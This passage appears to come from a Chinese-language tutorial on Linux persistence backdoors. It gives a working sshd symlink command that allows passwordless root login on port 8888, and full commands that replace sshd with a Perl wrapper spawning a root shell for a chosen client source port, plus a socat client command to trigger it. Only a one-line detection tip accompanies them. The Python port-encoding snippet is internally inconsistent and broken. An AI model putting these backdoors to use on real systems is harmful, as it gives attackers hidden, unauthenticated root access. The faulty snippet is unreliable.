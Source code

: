 

在目标服务器上执行一句话后门：

```plain
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
```



执行完之后，任何一台机器`ssh root@IP -p 8888`，输入任意密码，成功登录。

![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917790013-ec9c83e8-5d69-49b3-87f1-c53bbb71f9d5.png)



排查技巧：进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门。

![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917796606-be6831b2-db26-43cb-9abe-42805e36e793.png)



# 5、SSH wrapper

首先启动的是/usr/sbin/sshd,脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell



简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。



服务端：

```plain
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```



客户端：

```plain
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```
